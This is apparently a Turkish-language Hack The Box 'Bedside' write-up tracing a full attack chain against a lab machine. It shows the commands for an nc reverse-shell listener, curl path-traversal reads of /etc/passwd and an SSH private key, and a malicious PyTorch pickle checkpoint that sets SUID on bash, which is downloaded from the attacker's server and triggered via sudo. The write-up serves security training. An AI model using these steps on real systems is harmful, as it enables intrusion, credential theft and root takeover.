# HTB Bedside | Full Attack Chain Walkthrough

**Zorluk:** Medium | **OS:** Linux | **Kategori:** Web / ML Pipeline Abuse

## Genel Bakış

Bedside, bir araştırma portalını hedef alan çok katmanlı bir web ve iç ağ saldırı zinciri barındırıyor:

Virtual Host Enumeration → Dosya Yükleme Portalı üzerinden foothold → PDF işleme pipeline'ı → İç ağda SSRF/Path Traversal ile SSH private key sızıntısı → Yatay hareket → 
ML checkpoint yükleme akışında güvensiz pickle/torch deserialization → Root.

## Saldırı Yolu

- Nmap port taraması ve /etc/hosts kaydı 
- Virtual Host Fuzzing (ffuf) → research.bedside.htb keşfi
- Gobuster dizin taraması → /uploads/ endpoint'i
- Dosya yükleme portalı → PDF işleme pipeline'ı (pdf_watcher.py) üzerinden foothold (datawrangler)
- İç ağda (172.17.0.1:3000) SSRF + Path Traversal → /etc/passwd ve developer kullanıcısının SSH private key'i sızıntısı
- SSH ile developer kullanıcısına yatay hareket → user.txt
- /datastore/checkpoints dizinine pickle dosyası bırakma (dataops grup yazma izni)
- sudo ile çalıştırılabilen bedside_trainer.py (MONAI/Ignite CheckpointLoader) → torch.load() üzerinden pickle deserialization → Root


---

## Recon (Keşif)

### 1 — Host ayakta mı?

```bash
ping -c 4 10.129.177.38
```



Ping komutu ile hedefin ağ üzerinden erişilebilir durumda olup olmadığına bakıyoruz.

**Not:** TTL değeri 63 olarak görüldü — bu, hedefin bir Linux sistemi olduğuna dair ilk ipucu.

### 2 — Nmap Port/Service/OS Taraması

```bash
nmap -A -Pn 10.129.177.38
```



- **22/tcp** → `tcpwrapped` (SSH, ama banner gizli/filtreli).
- **80/tcp** → `tcpwrapped`, ancak HTTP başlığında `Apache/2.4.68 (Debian)` görünüyor.
- **3000/tcp filtered** → dışarıdan erişime kapalı/filtrelenmiş olarak gözüküyor.

### 3 — /etc/hosts Kaydı

```bash
echo "10.129.177.38 bedside.htb" | sudo tee -a /etc/hosts
```




### 4 — Virtual Host Fuzzing (ffuf)

```bash
ffuf -u http://bedside.htb/ -H "Host: FUZZ.bedside.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -ac
```



`Host:` header'ını fuzzlayarak sunucuda tanımlı olabilecek başka **virtual host'ları** (subdomain) arıyoruz.
**Not:** -ac (auto-calibrate) ile yanlış pozitifler'i otomatik olarak eliyor.
Sonuç: **`research`** subdomaini 200 OK dönüyor. 


### 5 — /etc/hosts Kaydı (research.bedside.htb)

```bash
echo "10.129.177.38 research.bedside.htb" | sudo tee -a /etc/hosts
```



ffuf ile bulduğumuz `research.bedside.htb` vhost'una tarayıcıdan erişebilmek için bu kaydı da `/etc/hosts`'a ekliyoruz.


### 6 — Gobuster Dizin Taraması

```bash
gobuster dir -u http://research.bedside.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
```



`research.bedside.htb` üzerinde gizli dizin/endpoint'leri aramak için gobuster çalıştırıyoruz. Sonuçlar:

- `/uploads/` (301) — yüklenen dosyaların tutulduğu dizin
- `/javascript/` (301)
- `/server-status` (403) — erişim engellenmiş

`/uploads/` bulgusu, sitede bir **dosya yükleme fonksiyonu** olduğuna işaret ediyor.


### 7 — Ana Sayfayı (bedside.htb) İnceleme


Ana sayfa klasik bir klinik tanıtım sitesi, doğrudan kullanılabilir bir fonksiyon barındırmıyor.

### 8 — Research Portal'ı İnceleme



Burası **"Bedside Research Portal"** adında bir dosya yükleme arayüzü.
Kabul ettiği formatlar: `jpeg, jpg, png, bmp, tiff, dcm, pdf`.


---

## Foothold — Dosya Yükleme ve Reverse Shell

### 9 — Payload Hazırlama ve Yükleme



`bedsidee.py` scriptiyle bir reverse shell komutu barındıran kötücül bir pickle payload'ı oluşturuyoruz (`shell.pickle.gz`). Ardından `trigger.py` scriptiyle bu payload'ı araştırma portalına yüklüyoruz — `sh.pickle.gz` ve `trigger.pdf` olarak yükleniyor ve arka planda çalışan **cron/watcher** sürecinin bunu işlemesini (`~30s` içinde) bekliyoruz.


### 10 — Reverse Shell 

```bash
nc -lvnp 9000
```



Watcher süreci payload'ı işlediğinde bağlantı geliyor.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

ardından `Ctrl+Z` ile arka plana alıp `stty raw -echo; fg` ile terminali tam etkileşimli hale getiriyoruz.


### 11 — Dosya Sistemi Keşfi



```bash
cat requirements.txt
```

`pdfminer.six==20250506` paketi görülüyor — watcher, PDF dosyalarını `pdfminer` ile parse ediyor. Kök dizine çıkıp (`cd ..`, `ls -la`) genel yapıyı inceliyoruz.
`sudo -l` denemesi bu noktada sonuç vermiyor.


---

## İç Ağda SSRF / Path Traversal ile Credential Sızıntısı

### 12 — SSRF ile /etc/passwd Okuma

```bash
curl -s --path-as-is 'http://172.17.0.1:3000/../../../../etc/passwd'
```



`172.17.0.1`, Docker bridge network'ünün gateway IP'si — yani bu, container'ın **dışarıdan erişilemeyen host/iç ağ** tarafına bakan adresi.
`--path-as-is` flag'i, curl'ün normalde temizleyeceği `../../../../` path traversal dizilerini **olduğu gibi** göndermemizi sağlıyor.
Çıktıda dikkat çeken kullanıcı: **`developer`** (uid=1000, `/home/developer`, `/bin/bash` shell) — gerçek, etkileşimli giriş yapabilen bir sistem kullanıcısı.


### 13 — Aynı Path Traversal ile SSH Private Key Sızıntısı

```bash
curl -s --path-as-is 'http://172.17.0.1:3000/../../../../home/developer/.ssh/id_rsa'
```



Aynı zafiyeti kullanarak bu sefer `developer` kullanıcısının **SSH private key'ini** (`id_rsa`) doğrudan okuyoruz.


### 14 — Private Key'i Kaydetme



Sızdırdığımız private key'i kendi makinemizde bir dosyaya kaydediyoruz:

```bash
mkdir -p bedsideee
cd bedsideee
nano id_rsa
```

Çıktıdaki key içeriğini 'id_rsa' dosyasına yapıştırıp kaydediyoruz.


### 15 — Dosya İzinlerini Düzeltme



```bash
cat id_rsa
chmod 600 id_rsa
```

SSH, private key dosyasının izinlerinin açık olmasına izin vermiyor — bu yüzden `chmod 600` ile sadece sahibinin okuyup yazabileceği şekilde kısıtlıyoruz.


### 16 — SSH ile developer Kullanıcısına Bağlanma

```bash
ssh -i id_rsa developer@10.129.177.38
```



Sızdırdığımız key ile host makineye (container'ın dışına) **`developer`** kullanıcısı olarak bağlanıyoruz.


### 17 — user.txt Flag

```bash
ls -la
cat user.txt
```



`user.txt` dosyasını okuyarak **user flag'ini** elde ediyoruz.

---

## Privilege Escalation — ML Checkpoint Deserialization

### 18 — Sudo -l Yetkisi ve Kötücül Checkpoint Payload Hazırlama

```bash
sudo -l
```



`developer` kullanıcısının sudo yetkilerine bakıyoruz. Çıktı kritik: **`(ALL) NOPASSWD: /usr/bin/python3 /opt/trainer/bedside_trainer.py`** — yani `developer`, bu scripti şifresiz ve **root olarak** çalıştırabiliyor.

```bash
nano bedside_evil.py
python3 bedside_evil.py -c "chmod +s /bin/bash" -o checkpoint_epoch_99.pt
python3 -c "from PIL import Image; Image.new('RGB',(10,10),color='red').save('dummy.png')"
python3 -m http.server 8080
```


PyTorch'un `.pt` formatı, pickle edilmiş veri içeren bir zip arşivi. `bedside_evil.py`, içine `os.system()` çağıran bir `__reduce__` nesnesi gömülü sahte bir checkpoint üretiyor — `torch.load()` ile açıldığında `chmod +s /bin/bash` komutu çalışacak. Gözden kaçırmak için masum bir `dummy.png` de hazırlanıp, ikisi `http.server` ile servis ediliyor.


### 19 — Payload'ı datastore Dizinine İndirme

```bash
ls -la /datastore/
curl -s -o /datastore/checkpoints/checkpoint_epoch_99.pt http://10.10.15.231:8080/checkpoint_epoch_99.pt
curl -s -o /datastore/processed/dummy.png http://10.10.15.231:8080/dummy.png
```



`datawrangler` kullanıcısının `dataops` grup üyeliği sayesinde `/datastore/checkpoints` ve `/datastore/processed` dizinlerine yazma izni olduğunu görüyoruz. Kendi HTTP sunucumuzdan kötücül checkpoint dosyasını ve sahte görüntüyü doğrudan bu dizinlere indiriyoruz.


### 20 — Teslimatı Doğrulama



Kendi `http.server` log'umuzda hedefin (`10.129.177.38`) her iki dosyayı da başarıyla çektiğini (`200 OK`) görüyoruz.


### 21 — bedside_trainer.py'yi Tetikleme ve Root Shell

```bash
sudo /usr/bin/python3 /opt/trainer/bedside_trainer.py
```



`developer` kullanıcısının bu scripti **root olarak** çalıştırma yetkisi var (sudo). Script, MONAI/Ignite framework'ü ile `/datastore/checkpoints/checkpoint_epoch_99.pt` dosyasını `CheckpointLoader` (callable mode) üzerinden otomatik yüklüyor. Bu zincir sonunda `torch.load()` çağrısına ulaşıyor ve **pickle deserialize** ediliyor — içine gömdüğümüz `os.system("chmod +s /bin/bash")` **root bağlamında** çalışıyor.

Script hata verip çıktıktan sonra:

```bash
/bin/bash -p
```

ile SUID bash üzerinden ayrıcalıklı shell alıyoruz.


### 22 — root.txt Flag

```bash
cat /root/root.txt
```



Root flag'i okunuyor — makine tamamlandı.


